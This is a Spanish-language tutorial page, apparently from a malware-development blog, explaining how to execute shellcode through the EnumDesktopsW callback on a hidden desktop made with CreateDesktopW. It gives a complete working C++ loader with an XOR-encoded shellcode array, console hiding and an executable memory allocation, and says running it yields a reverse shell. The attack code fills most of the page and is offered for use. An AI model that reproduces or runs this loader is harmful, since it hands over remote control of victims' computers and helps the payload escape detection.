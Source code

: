 ```yaml
---
layout: default
title: Inyeccion de shellcode via EnumDesktopsW()
parent: Desarrollo de malware
---
```


# Color Utilities
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---
Te explicare como use la funcion ```EnumDesktopsW()``` para ejecutar una shellcode en un escritorio creado con ```CreateDesktopW()``` 
{:.lead}
## EnumDesktopsW

EnumDesktopsW es una funcion de la WinAPI la cual enumera todos los escritorios del usuario, cabe recalcar que solo enumera los cuales tengan acceso ```DESKTOP_ENUMERATE``` o ```GENERIC_ALL```, lo que hace por detras esta funcion es invocar multiples veces a la funcion callback del parámetro ```lpEnumFunc``` hasta que termine de enumerar todos los escritorios.

```lpEnumFunc``` es uno de los parametros que recibe ```EnumDesktopsW()```, este parametro es un puntero a la callback  ```DESKTOPENUMPROC```, su sintaxis es:

```c++
BOOL CALLBACK EnumDesktopProc(
  _In_ LPTSTR lpszDesktop,
  _In_ LPARAM lParam
);
```

### ¿Como se ejecuta la shellcode?

Basicamente hace esto:

- Se asigna un buffer de memoria mediante una función como VirtualAlloc
- Se copia la shellcode en la memoria recién asignada
- Se usa EnumDesktopsW para enumerar los escritorios y mediante una funcion callback encontrar la dirección de una función que se puede usar para ejecutar la shellcode (La direccion que regresa VirtualAlloc)

El codigo "base" para ejecutar una shellcode de esta forma tomando en cuenta la explicacion anterior, es:

```c++
HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(hAlloc, shellcode, sizeof(shellcode));
EnumDesktopsW(GetProcessWindowStation(),(DESKTOPENUMPROCW) hAlloc, NULL);
```

Pero nos vamos a poner experimentadores y te voy a explicar como usando ese mismo codigo de base lo converti en algo bien genial

### Explicacion

Como en los demas tutoriales, te pondre todo el codigo y te explicare que hacen las funciones y como se ejecuta la shellcode

```c++
#include <Windows.h>
#include <iostream>

unsigned char shellcode[] = {
	"\x92\x26\xed\x8a\x9e\x86\xa2\x6e\x6e\x6e\x2f\x3f\x2f\x3e"
	"\x3c\x3f\x26\x5f\xbc\x0b\x26\xe5\x3c\x0e\x26\xe5\x3c\x76"
	"\x38\x26\xe5\x3c\x4e\x23\x5f\xa7\x26\xe5\x1c\x3e\x26\x61"
	"\xd9\x24\x24\x26\x5f\xae\xc2\x52\x0f\x12\x6c\x42\x4e\x2f"
	"\xaf\xa7\x63\x2f\x6f\xaf\x8c\x83\x3c\x26\xe5\x3c\x4e\xe5"
	"\x2c\x52\x2f\x3f\x26\x6f\xbe\x08\xef\x16\x76\x65\x6c\x61"
	"\xeb\x1c\x6e\x6e\x6e\xe5\xee\xe6\x6e\x6e\x6e\x26\xeb\xae"
	"\x1a\x09\x26\x6f\xbe\xe5\x26\x76\x3e\x2a\xe5\x2e\x4e\x27"
	"\x6f\xbe\x8d\x38\x23\x5f\xa7\x26\x91\xa7\x2f\xe5\x5a\xe6"
	"\x26\x6f\xb8\x26\x5f\xae\xc2\x2f\xaf\xa7\x63\x2f\x6f\xaf"
	"\x56\x8e\x1b\x9f\x22\x6d\x22\x4a\x66\x2b\x57\xbf\x1b\xb6"
	"\x36\x2a\xe5\x2e\x4a\x27\x6f\xbe\x08\x2f\xe5\x62\x26\x2a"
	"\xe5\x2e\x72\x27\x6f\xbe\x2f\xe5\x6a\xe6\x26\x6f\xbe\x2f"
	"\x36\x2f\x36\x30\x37\x34\x2f\x36\x2f\x37\x2f\x34\x26\xed"
	"\x82\x4e\x2f\x3c\x91\x8e\x36\x2f\x37\x34\x26\xe5\x7c\x87"
	"\x25\x91\x91\x91\x33\x27\xd0\x19\x1d\x5c\x31\x5d\x5c\x6e"
	"\x6e\x2f\x38\x27\xe7\x88\x26\xef\x82\xce\x6f\x6e\x6e\x27"
	"\xe7\x8b\x27\xd2\x6c\x6e\x7f\x32\xae\xc6\x6f\x27\x2f\x3a"
	"\x27\xe7\x8a\x22\xe7\x9f\x2f\xd4\x22\x19\x48\x69\x91\xbb"
	"\x22\xe7\x84\x06\x6f\x6f\x6e\x6e\x37\x2f\xd4\x47\xee\x05"
	"\x6e\x91\xbb\x04\x64\x2f\x30\x3e\x3e\x23\x5f\xa7\x23\x5f"
	"\xae\x26\x91\xae\x26\xe7\xac\x26\x91\xae\x26\xe7\xaf\x2f"
	"\xd4\x84\x61\xb1\x8e\x91\xbb\x26\xe7\xa9\x04\x7e\x2f\x36"
	"\x22\xe7\x8c\x26\xe7\x97\x2f\xd4\xf7\xcb\x1a\x0f\x91\xbb"
	"\xeb\xae\x1a\x64\x27\x91\xa0\x1b\x8b\x86\xfd\x6e\x6e\x6e"
	"\x26\xed\x82\x7e\x26\xe7\x8c\x23\x5f\xa7\x04\x6a\x2f\x36"
	"\x26\xe7\x97\x2f\xd4\x6c\xb7\xa6\x31\x91\xbb\xed\x96\x6e"
	"\x10\x3b\x26\xed\xaa\x4e\x30\xe7\x98\x04\x2e\x2f\x37\x06"
	"\x6e\x7e\x6e\x6e\x2f\x36\x26\xe7\x9c\x26\x5f\xa7\x2f\xd4"
	"\x36\xca\x3d\x8b\x91\xbb\x26\xe7\xad\x27\xe7\xa9\x23\x5f"
	"\xa7\x27\xe7\x9e\x26\xe7\xb4\x26\xe7\x97\x2f\xd4\x6c\xb7"
	"\xa6\x31\x91\xbb\xed\x96\x6e\x13\x46\x36\x2f\x39\x37\x06"
	"\x6e\x2e\x6e\x6e\x2f\x36\x04\x6e\x34\x2f\xd4\x65\x41\x61"
	"\x5e\x91\xbb\x39\x37\x2f\xd4\x1b\x00\x23\x0f\x91\xbb\x27"
	"\x91\xa0\x87\x52\x91\x91\x91\x26\x6f\xad\x26\x47\xa8\x26"
	"\xeb\x98\x1b\xda\x2f\x91\x89\x36\x04\x6e\x37\x27\xa9\xac"
	"\x9e\xdb\xcc\x38\x91\xbb"
};

typedef BOOL(WINAPI* ShellcodeFunction)(LPCWSTR, LPARAM);

DWORD WINAPI SwitchDesktopThread(LPVOID lpParameter){
    HDESK hDesktop = static_cast<HDESK>(lpParameter);
    SetThreadDesktop(hDesktop);
    
    return 0;
}

int main(){
	HWND hWin = GetConsoleWindow();
	ShowWindow(hWin, SW_HIDE);
	
    HDESK hDesktop = CreateDesktopW(L"ShellcodeDesk", NULL, NULL, 0, GENERIC_ALL, NULL);
    if (hDesktop != NULL){
        HANDLE hThread = CreateThread(NULL, 0, SwitchDesktopThread, hDesktop, 0, NULL);
        if (hThread == NULL){
            CloseDesktop(hDesktop);
            return 1;
        }else{
        	CloseHandle(hThread);
	
	        for (int i = 0; i < sizeof(shellcode); i++){
	            shellcode[i] = (byte)(shellcode[i] ^ (byte)'\x6e');
	        }
	
	        const size_t shellcodeSize = sizeof(shellcode);
	
	        LPVOID hAlloc = VirtualAlloc(
	            NULL,
	            shellcodeSize,
	            MEM_COMMIT | MEM_RESERVE,
	            PAGE_EXECUTE_READWRITE
	        );
	
	        memcpy(hAlloc, shellcode, shellcodeSize);
	        EnumDesktopsW(GetProcessWindowStation(), (DESKTOPENUMPROCW)hAlloc, NULL);
	        CloseDesktop(hDesktop);
		}

    }
    return 0;
}
```

### Explicacion rapida

Se crea un hilo para ejecutar ```SwitchDesktopThread()```, asi que cuando se ejecute esa funcion cambiara al escritorio mediante ```SetThreadDesktop()```, ese escritorio se llama "ShellcodeDesk" creado con ```CreateDesktop()```, permitiendo que esa accion ocurra en segundo plano en ese hilo que se creo, despues se reserva memoria con ```VirtualAlloc()``` para la shellcode y se inyectara en el contexto del escritorio "ShellcodeDesk" mediante la funcion de callback ```EnumDesktopW()```, permitiento asi que el escritorio actual del usuario no este ocurriendo nada, y todo el proceso de la shellcode se este ejecutando en el escritorio "ShellcodeDesk"


### Explicacion de cada funcion

#### CreateDesktopW()

```c++
HDESK hDesktop = CreateDesktopW(L"ShellcodeDesk", NULL, NULL, 0, GENERIC_ALL, NULL);
```

Creara un nuevo escritorio llamado "ShellcodeDesk" donde se le da acceso "GENERIC_ALL" para tener control total de ese ecritorio, y ojo,
para windows los escritorios solo son objetos que representan un area virtual la cual ejecuta aplicaciones y tiene ventanas, cada escritorio
esta aislado de otro escritorio, es decir, que cada escritorio tiene sus ventanas, aplicaciones.

Como curiosidad, la creacion de escritorios esta limitada por el tamaño del heap del escritorio del sistema, el cual es de 48 MB

Y si ese escritorio se crea, osea es diferente de NULL, regresa un identificador que se guarda en ```hDesktop```, y pasara a la funcion CreateThread()

#### CreateThread()

```c++
HANDLE hThread = CreateThread(NULL, 0, SwitchDesktopThread, hDesktop, 0, NULL);
```

Ahora, cuando se hace un llamado a esta funcion lo que esta pasando es que crea un hilo en el proceso actual, y date cuenta que este hilo su tercer parametro es un puntero del nombre de la funcion que se va a ejecutar en ese hilo, osea ```SwitchDesktopThread```, tambien se le pasa ```hDesktop``` que es la variable que tiene el escritorio creado con ```CreateDesktopW()```

#### SwitchDesktopThread()

```c++
DWORD WINAPI SwitchDesktopThread(LPVOID lpParameter){
    HDESK hDesktop = static_cast<HDESK>(lpParameter);
    SetThreadDesktop(hDesktop);
    
    return 0;
}
```

Ahora con ```SwitchDesktopThread``` lo que esta haciendo es cambiar al escritorio creado con ```CreateDesktopW()``` mediante ```SetThreadDesktop()```, sin embargo este cambio lo hace asignando el escritorio creado al hilo al que pertenece o del cual se esta ejecutando, osea, el escritorio "ShellcodeDesk" que se creo con ```CreateDesktopW()``` se estaria ejecutando en el hilo creado con ```CreateThread```, por eso mismo, en uno de los parametros de ```CreateThread``` se le pasa ```hDesktop```, que es la variable que tiene el nombre de escritorio "ShellcodeDesk".

#### Ejecucion de la shellcode

Y en caso de que todo vaya bien todas las intrucciones que le siguen se estarian ejecutando en ese escritorio ("ShellcodeDesk") lo cual permite que esten aisladas del escritorio actual del usuario, y ya al final con ```EnumDesktopsW()``` se ejecuta las shellcode en el contexto del escritorio creado, osea ShellcodeDesk

#### Resultados

Llega una reverse shell por que eso es lo que hace la shellcode

![](/assets/img/enumDesktopW/1.png)

![](/assets/img/enumDesktopW/2.png)

Eso ha sido todo, gracias por leer ❤
